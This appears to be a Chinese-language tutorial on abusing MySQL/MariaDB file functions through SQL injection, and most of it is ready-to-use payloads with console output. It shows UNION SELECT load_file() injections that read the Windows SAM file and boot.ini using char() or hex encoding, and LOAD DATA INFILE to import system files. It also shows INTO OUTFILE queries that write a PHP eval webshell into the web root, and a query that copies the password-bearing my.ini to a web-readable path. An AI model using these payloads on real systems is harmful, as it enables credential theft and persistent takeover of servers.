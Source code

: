 # SQL注入文件读写基础知识  
## 1. 读文件  

load_file(file_name):读取文件并返回该文件的内容作为一个字符串。  
使用条件：  
- A、必须有权限读取并且文件必须完全可读 
  - `and (select count(*) from mysql.user)>0/*` 如果结果返回正常,说明具有读写权限。  
  - `and (select count(*) from mysql.user)>0/*` 返回错误，应该是管理员给数据库帐户降权    
- B、欲读取文件必须在服务器上   
- C、必须指定文件完整的路径   
- D、欲读取文件必须小于 max_allowed_packet   

如果该文件不存在，或因为上面的任一原因而不能被读出，函数返回空。   
比较难满足的就是权限，在windows下，如果NTFS设置得当，是不能读取相关的文件的，当遇到只有administrators才能访问的文件，users就别想load_file出来。   
　

在实际的注入中，我们有两个难点需要解决：   
1. 绝对物理路径 
2. 构造有效的畸形语句 （报错爆出绝对路径）


在很多PHP程序中，当提交一个错误的Query，如果display_errors = on，程序就会暴露WEB目录的绝对路径，只要知道路径，那么对于一个可以注入的PHP程序来说，整个服务器的安全将受到严重的威胁。  
常用路径：
http://www.cnblogs.com/lcamry/p/5729087.html  

示例：  

`Select 1,2,3,4,5,6,7,hex(replace(load_file(char(99,58,92,119,105,110,100,111,119,115,92,114,101,112,97,105,114,92,115,97,109)))`

char中内容为：c:\windows\repair\sam  
利用hex()将文件内容导出来，尤其是smb文件时可以使用。  

`-1 union select 1,1,1,load_file(char(99,58,47,98,111,111,116,46,105,110,105))`  

Explain：“char(99,58,47,98,111,111,116,46,105,110,105)”就是“c:/boot.ini”的ASCII代码

`-1 union select 1,1,1,load_file(0x633a2f626f6f742e696e69) `  

Explain：“c:/boot.ini”的16进制是“0x633a2f626f6f742e696e69”

`-1 union select 1,1,1,load_file(c:\\boot.ini) `  

Explain:路径里的/用 \\代替

练习示例：   
```
MariaDB [test]> select load_file("d:\\test.php");
+--------------------------------+
| load_file("d:\\test.php")      |
+--------------------------------+
| 10.1.9-MariaDB
this is  a test |
+--------------------------------+
1 row in set (0.03 sec)

MariaDB [test]> select hex(load_file("d:\\test.php"));
+--------------------------------------------------------------+
| hex(load_file("d:\\test.php"))                               |
+--------------------------------------------------------------+
| 31302E312E392D4D6172696144420A746869732069732020612074657374 |
+--------------------------------------------------------------+
1 row in set (0.00 sec)
MariaDB [test]> select load_file(0x643A5C5C746573742E706870);
+---------------------------------------+
| load_file(0x643A5C5C746573742E706870) |
+---------------------------------------+
| 10.1.9-MariaDB
this is  a test        |
+---------------------------------------+
1 row in set (0.00 sec)
```
d:\\test.php 的16进制为 0x643A5C5C746573742E706870。

## 2. 文件导入到数据库  

**LOAD DATA INFILE**    语句用于高速地从一个文本文件中读取行，并装入一个表中。文件名称必须为一个文字字符串。  
在注入过程中，我们往往需要一些特殊的文件，比如配置文件，密码文件等。当你具有数据库的权限时，可以将系统文件利用load data infile导入到数据库中。   

示例：  
```
load data infile '/tmp/t0.txt' ignore into table t0 character set gbk fields terminated by '\t' lines terminated by '\n'
```

将/tmp/t0.txt导入到t0表中，character set gbk是字符集设置为gbk，fields terminated by是每一项数据之间的分隔符，lines terminated by 是行的结尾符。

当错误代码是2的时候的时候，文件不存在，错误代码为13的时候是没有权限，可以考虑/tmp等文件夹。

练习示例：   

```
MariaDB [test]> CREATE TABLE t2(name varchar(100));
Query OK, 0 rows affected (0.19 sec)

MariaDB [test]> load data infile 'd:\\test.php' into table t2;
Query OK, 1 row affected (0.03 sec)
Records: 1  Deleted: 0  Skipped: 0  Warnings: 0

MariaDB [test]> select * from t2;
+----------------+
| name           |
+----------------+
| 10.1.9-MariaDB |
+----------------+
1 row in set (0.00 sec)
```
表必须先存在，首先创建一张表，表为一列，类型为char，执行`load data infile 'd:\\test.php' into table t2;`     后可以将文件内容写入到该表中，内容添加到表后面。


## 3. 写文件

`SELECT.....INTO OUTFILE 'file_name'`

可以把被选择的行写入一个文件中。该文件被创建到服务器主机上，因此您必须拥有FILE权限，才能使用此语法。file_name不能是一个已经存在的文件。  

我们一般有两种利用形式：  
第一种直接将select内容导入到文件中，文件路径必须为已存在的路径，文件名不能存在：  

```
select version() into outfile "c:\\phpnow\\htdocs\\test.php"
```   
此处将version()替换成一句话，<?php @eval($_post[“mima”])?>也即 

```
select  <?php @eval($_post[“mima”])?>  into outfile "c:\\phpnow\\htdocs\\test.php"
```

直接连接一句话就可以了，其实在select内容中不仅仅是可以上传一句话的，也可以上传很多的内容。

第二种修改文件结尾：   

```
select version() Into outfile “c:\\phpnow\\htdocs\\test.php” LINES TERMINATED BY 0x16进制文件
```

解释：通常是用‘\r\n’结尾，此处我们修改为自己想要的任何文件。同时可以用FIELDS TERMINATED BY  16进制可以为一句话或者其他任何的代码，可自行构造。在sqlmap中os-shell采取的就是这样的方式，具体可参考os-shell分析文章：http://www.cnblogs.com/lcamry/p/5505110.html 
练习示例：    
```
MariaDB [test]> select version() into outfile "d:\\test2.php" LINES TERMINATED B
Y 0x3C3F70687020406576616C28245F706F73745BA1B06D696D61A1B15D293F3E;
Query OK, 1 row affected, 1 warning (0.01 sec)

test2.php内容为：
10.1.9-MariaDB<?php @eval($_post[“mima”])?>
```

TIPS：   
（1）可能在文件路径当中要注意转义，这个要看具体的环境  
（2）上述我们提到了load_file(),但是当前台无法导出数据的时候，我们可以利用下面的语句：    
```
select load_file(‘c:\\wamp\\bin\\mysql\\mysql5.6.17\\my.ini’)into outfile ‘c:\\wamp\\www\\test.php’
```

可以利用该语句将服务器当中的内容导入到web服务器下的目录，这样就可以得到数据了。上述my.ini当中存在password项（不过默认被注释），当然会有很多的内容可以被导出来，这个要平时积累。
